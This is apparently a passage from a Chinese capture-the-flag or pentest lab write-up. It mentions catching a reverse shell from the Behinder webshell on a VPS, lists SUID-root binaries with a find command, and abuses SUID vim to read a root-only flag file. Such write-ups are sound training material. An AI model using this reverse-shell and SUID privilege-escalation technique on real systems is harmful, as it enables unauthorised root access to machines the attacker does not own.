 有一些不方便，用冰蝎的反弹shell功能弹到vps上

## 提权

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[![](assets/1706771111-d11184e15f02846f05ee7ba28b5f5787.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173455-a992b512-be89-1.png)

发现`vim`，直接猜测一手flag位置

```plain
vim /root/flag/flag01.txt
```

[![](assets/1706771111-54a27da25271eb7167c32c2a33d6fe04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173501-ad1c639a-be89-1.png)

# 内网探测
